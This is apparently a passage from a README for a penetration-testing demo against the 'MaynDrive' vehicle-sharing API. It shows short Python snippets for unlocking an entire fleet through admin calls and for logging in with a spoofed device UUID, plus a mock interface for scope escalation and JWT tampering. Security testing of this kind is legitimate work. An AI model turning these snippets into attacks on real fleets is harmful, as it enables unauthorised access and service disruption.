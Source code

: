 ### 4. 🚨 **Mass Vehicle Unlock** (CRITICAL)
**The Problem:** No rate limiting on admin operations

**The Attack:**
```python
# Unlock entire fleet
for vehicle in city_fleet:
    api.unlock_vehicle_admin(vehicle, force=True)
```

**The Impact:** Fleet-wide disruption

---

### 5. ⚡ **Device Spoofing** (MEDIUM)
**The Problem:** Fake device info is accepted

**The Attack:**
```python
# Use fake device UUID
device = {"uuid": "00000000-0000-0000-0000-000000000000"}
api.login(email, password, device=device)
```

**The Impact:** Bypass device-based security

---

## 🎬 Demo Screenshot (What You'll See)

```
╔═══════════════════════════════════════════════════════╗
║  🚨 MaynDrive Security Exploitation Demo             ║
╚═══════════════════════════════════════════════════════╝

⚠️  WARNING: AUTHORIZED TESTING ONLY

🔐 Test Credentials
   Email:    [your.email@example.com     ]
   Password: [*************************** ]

🎯 Exploitation Scenarios

┌────────────────────────────┐  ┌────────────────────────────┐
│ 1. Scope Escalation        │  │ 2. JWT Token Manipulation  │
│ [CRITICAL]                 │  │ [CRITICAL]                 │
│                            │  │                            │
│ Can users request admin    │  │ Can tokens be tampered     │
│ scope during login?        │  │ with?                      │
│                            │  │                            │
│ [🎯 Execute Exploit]       │  │ [🎯 Execute Exploit]       │
└────────────────────────────┘  └────────────────────────────┘

📊 Exploitation Results
┌────────────────────────────────────────────────────────────┐
│ 🚨 SCOPE ESCALATION - VULNERABLE                           │
│                                                            │
│ CRITICAL: Regular user successfully gained admin access!   │
│ Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...            │
│                                                            │
│ Admin Endpoints Tested: 7                                  │
│ Vulnerable Endpoints: 5                                    │
└────────────────────────────────────────────────────────────┘
```

---